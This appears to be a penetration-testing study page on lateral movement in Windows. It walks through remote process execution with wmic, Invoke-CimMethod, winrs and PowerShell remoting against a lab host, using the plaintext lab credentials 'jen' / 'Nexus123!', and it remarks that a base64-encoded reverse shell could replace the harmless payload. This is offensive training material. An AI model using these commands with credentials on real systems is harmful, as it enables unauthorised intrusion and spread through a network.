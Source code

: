 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WMI & WinRM

## WMI

### wmic.exe

**Windows Management Instrumentation (WMI)** is a built-in Windows feature that allows administrators and scripts to manage and automate tasks across local and remote systems. It uses an object-oriented model and communicates primarily via **Remote Procedure Calls (RPC)**.&#x20;

From an attacker's perspective, WMI can be exploited to execute commands and spawn processes on remote systems—making it a powerful tool for lateral movement inside a network.

WMI provides a method called `Create` from the `Win32_Process` class, which can be used to launch a process on a target system. If an attacker has **administrative credentials for a remote machine**, they can use this method to execute code remotely. WMI uses port `135` (RPC) for initial communication setup and the dynamic port range (`19152`–`65535`) for session data transfer. To execute commands remotely via WMI, attackers often rely on tools like `wmic.exe` (deprecated but still available in many systems) and PowerShell (`Invoke-CimMethod`).

> _**Important:** Local UAC (User Account Control) restrictions can block remote execution by non-domain users. However, domain users are typically exempt from this, allowing full administrative access remotely._

In our scenario, we simulate an attacker using `wmic` to launch the Calculator (`calc.exe`) on a remote system named `Files04` (`192.168.50.73`). The domain user `jen` connects from `Client74` and is a local `Administrator` on `Files04`.

{% code overflow="wrap" %}
```powershell
> wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 5772;
        ReturnValue = 0;
};
```
{% endcode %}

> _The `ReturnValue` of `0` indicates success._

### PowerShell

In modern environments, WMI-based lateral movement with PowerShell (PS) is preferred because it is more flexible, scriptable, and less likely to raise immediate red flags compared to legacy tools like `wmic`, which has been deprecated.

PS uses **CIM (Common Information Model)** sessions to remotely interact with system management information on Windows systems—this includes processes, services, registry keys, and more.

> _**CIM** is a standardized data model for describing the structure and behavior of managed resources like operating systems and network devices._

A **CIM session** in PS is a persistent connection to a remote computer that allows you to send WMI-like commands and receive structured responses. CIM sessions can communicate over two main protocols:

* **DCOM (Distributed Component Object Model)**: This is the legacy protocol used by traditional WMI commands like `wmic` or `Get-WmiObject`. It works well in internal networks but has limitations in firewall-restricted environments.
* **WSMan (Web Services for Management)**: This is a newer, HTTP-based protocol built on web standards (used by PowerShell Remoting and `Get-CimInstance`). It's more firewall-friendly and supports encryption and modern authentication.

Before we can establish a remote session, we need to authenticate. PS uses a `PSCredential` object for this purpose, which securely stores the username and password.

{% code overflow="wrap" %}
```powershell
$username = 'jen'
$password = 'Nexus123!'
# Encrypts the password for secure use in memory
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
# Wraps the credentials for use with authentication-related cmdlets
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
# Configures the protocol (in this case DCOM)
$options = New-CimSessionOption -Protocol DCOM
# Initiates the session to the target machine
$session = New-CimSession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $options
$command = 'calc'
# Start a new process on the target machine
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $command}

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73          
```
{% endcode %}

## WinRM

An alternative to WMI for remote management on Windows systems is **Windows Remote Management (WinRM)**. WinRM is Microsoft's implementation of the WSMan protocol. WinRM operates by sending and receiving XML-formatted messages over HTTP (`5985`) or HTTPS (`5986`).

Besides being built into PS, WinRM is also accessible through utilities like `winrs` (Windows Remote Shell)—a command-line tool that allows you to run commands on a remote machine. To use `winrs`, the remote user must be a member of either the `Administrators` or the `Remote Management Users` group on the target machine.

```powershell
> winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

> _We can replace these test commands with more advanced payloads—for example, a base64-encoded PS reverse shell._

PS also includes **native WinRM support** through a feature called **PowerShell Remoting**. With this approach, we can create a persistent remote session using the `New-PSSession` cmdlet and authenticate using a `PSCredential` object.

{% code overflow="wrap" %}
```powershell
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
  
> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
{% endcode %}
